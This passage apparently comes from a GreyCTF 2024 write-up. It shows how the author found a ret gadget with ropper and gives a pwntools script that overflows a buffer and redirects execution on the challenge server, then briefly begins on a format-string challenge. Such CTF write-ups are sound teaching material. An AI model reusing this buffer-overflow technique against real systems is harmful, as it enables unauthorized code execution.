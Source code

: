 ### How to obtain a ret gadget

To obtain a ret gadget, I used ropper to list all ret addresses. 
```
ropper -f ./chall
```
![Desktop View](assets/img/posts/GreyCTF24/retgadget.png){: width="972" height="589" }
_List of ret gadgets in chall.c_

I picked a random gadget from the list generated and with pwntools I send it in before the address. Finally, we have reached the solution. _*insert happy sigh*_

### The Final Solution

```python
from pwn import *

p = remote("challs.nusgreyhats.org", 30211)
# p = process("./chall")

ret = p64(0x40101a) #ret gadget

payload = b"A"*72
payload += ret
payload += p64(0x401392)
p.sendlineafter(b"PIN: ", payload)
p.interactive()
```
{: file='solution.py'}


## Baby Fmtstr

During the 24h I attempted baby-fmtstr for some time thinking that I would know how to identify the vuln based on the name of the challenge _(I touched on it during picoctf'24 which I am still procrastinating on writing till this day)_. **I WAS WRONG.** I found no exploit other than a buffer overflow and gave up after a few hours. 
